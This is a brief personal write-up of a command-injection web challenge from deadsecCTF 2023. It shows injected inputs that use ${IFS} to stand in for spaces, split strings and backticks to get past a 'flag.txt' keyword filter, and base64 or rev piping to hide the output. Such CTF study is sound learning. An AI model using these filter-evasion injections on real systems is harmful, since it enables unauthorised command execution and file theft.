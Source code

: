 ```yaml
---
title: "deadsecCTF 2023"
date: 2023-05-22T12:13:32+05:30
description: "I happened to pop this open while travelling and looked at a web problem..."
tags: [web]
---
```


## Dont' hack my website

### My Attempt

echo & head both work with no spaces, id, whoami

Running `df` will show us

```bash
Filesystem     1K-blocks    Used Available Use% Mounted on
overlay         98831908 6164312  92651212   7% /
/dev/sda1       98831908 6164312  92651212   7% /flag.txt
none                4096       0      4096   0% /tmp
none                4096       0      4096   0% /run
```

Anything containing `flag.txt` won't work.

```bash
head${IFS}&&${IFS}pwd
/app
```

```txt
head${IFS}&&${IFS}a=fl&&${IFS}b=ag&&${IFS}c=.t&&${IFS}d=xt

a=fl${IFS}b=ag${IFS}c=.t${IFS}d=xt${IFS}&&${IFS}echo${IFS}$a$b$c$d
fl b=ag c=.t d=xt

a=fl${IFS}ag${IFS}.t${IFS}xt${IFS}&&${IFS}echo${IFS}$a$b$c$d
fl ag .t xt
```

Somehow strip out the whitespace????

### Finished Solve Via Write-Ups

I read afterward that you can use ```c``at fl``ag.txt``` to properly format the so you can get around the `flag` check. In a similar vein, the output also can't have the flag in plaintext. I saw some solutions that used `|base64` or `|rev` to ensure that the output didn't contain any unwated chars.
